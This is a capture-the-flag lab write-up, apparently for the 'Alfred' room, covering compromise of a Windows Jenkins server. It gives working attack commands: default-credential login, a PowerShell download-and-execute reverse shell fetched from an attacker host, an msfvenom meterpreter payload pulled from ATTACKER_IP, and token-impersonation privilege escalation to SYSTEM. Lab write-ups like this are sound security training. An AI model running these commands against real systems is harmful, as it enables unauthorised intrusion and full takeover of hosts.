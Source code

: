 ```yaml
---
title: "Alfred"
tags:
  - Easy
  - Windows
  - nmap
  - Jenkins
  - powershell
  - msfvenom
  - meterpreter
  - Token Impersonation
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  | 10.10.113.167 |  |

---

Let's start off with a basic `nmap` scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the `-Pn` tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

![screenshot1](../assets/images/alfred/screenshot1.png)

From the results, we can see that there are 3 ports currently open: **80 (HTTP)**, **3389** and **8080 (HTTP)**

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

![screenshot2](../assets/images/alfred/screenshot2.png)

After looking through the website and running a `gobuster` directory scan, I was unable to find anything of interest. 

Let's move on to the web server on port 8080:

![screenshot3](../assets/images/alfred/screenshot3.png)

Nice! We found a login page to a Jenkins server. 

---

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

---

Let's try using a common default username and password to log in:

> admin : admin

![screenshot4](../assets/images/alfred/screenshot4.png)

Luckily for us, those credentials actually worked! We're now logged into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named 'project', then 'Configure' on the left-hand side, then move down to the 'Build' section:

![screenshot5](../assets/images/alfred/screenshot5.png)

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be `whoami`.

![screenshot6](../assets/images/alfred/screenshot6.png)

Now, we simply click on 'Build Now' on the project page, then click on the corresponding build in the 'Build History' section, then click on 'Console Output' to see the results of our command:

![screenshot7](../assets/images/alfred/screenshot7.png)

We can see from the console output that our `whoami` was successfully run! This proves that we can run arbitrary commands on the server. 

Thus, let's use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a Windows machine, we'll use a Powershell [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) that is part of the [Nishang framework](https://github.com/samratashok/nishang).

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can transfer the script to our target.

Next, we input the following command into the 'Build' section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using `Invoke-PowerShellTcp`.

![screenshot8](../assets/images/alfred/screenshot8.png)

Finally, we make sure to have a netcat listener up and ready to catch the connection.

With everything set up, let's go ahead and build the project!

![screenshot9](../assets/images/alfred/screenshot9.png)

And we're in!

![screenshot10](../assets/images/alfred/screenshot10.png)

**user.txt** is located in the desktop of the user bruce.

---

To make the privilege escalation process easier, let's switch to a Meterpreter shell using `metasploit`.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using `msfvenom`:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

![screenshot11](../assets/images/alfred/screenshot11.png)

With our payload created, we upload it onto the target machine using the same command as before:

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER_IP:8000/shell.exe','shell.exe')"
```

![screenshot12](../assets/images/alfred/screenshot12.png)

For good measure, I'll also add in a `dir` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine:

![screenshot13](../assets/images/alfred/screenshot13.png)

Now, we just have to execute it using:

```
.\shell.exe
```

![screenshot14](../assets/images/alfred/screenshot14.png)

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the /multi/handler module:

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With everything set up, let's build the project:

![screenshot15](../assets/images/alfred/screenshot15.png)

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a meterpreter shell, we can use **token impersonation** to gain system access.

Let's first spawn a shell that we can use. This can be done using the `shell` command in meterpreter.

Next, we use the `whoami /priv` command to view all privileges on this account:

![screenshot16](../assets/images/alfred/screenshot16.png)

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit these privileges by using the `incognito` module in Metasploit. To load the module, we first exit out of the shell. Then we use the `load incognito` command: 

![screenshot17](../assets/images/alfred/screenshot17.png)

Loading this module gives us more commands that we can run in meterpreter:

![screenshot18](../assets/images/alfred/screenshot18.png)

We will be using the `list_tokens` command:

```
list_tokens -g
```

*(The -g tag lists tokens by unique groupname)*

![screenshot19](../assets/images/alfred/screenshot19.png)

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the `impersonate_token` command to use this token. This will then allow us to impersonate the root user (NT AUTHORTIY\SYSTEM):

```
impersonate_token "BUILTIN\Administrators"
```

![screenshot20](../assets/images/alfred/screenshot20.png)

With that, we have now impersonated the root user!

However, even though we are currently using a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions: it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct 'NT AUTHORITY\SYSTEM' privileges. According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the PID of the process. We can use the `ps` command:

![screenshot21](../assets/images/alfred/screenshot21.png)

The PID of services.exe is **668**. 

Now let's migrate to the process:

```
migrate 668
```

![screenshot22](../assets/images/alfred/screenshot22.png)

After the migration is complete, we finally have the privileges of 'NT AUTHORITY\SYSTEM'. 

We now spawn a root shell using the `shell` command. We can then read the **root.txt** file located in C:\Windows\System32\config using the `TYPE` command:

![screenshot23](../assets/images/alfred/screenshot23.png)
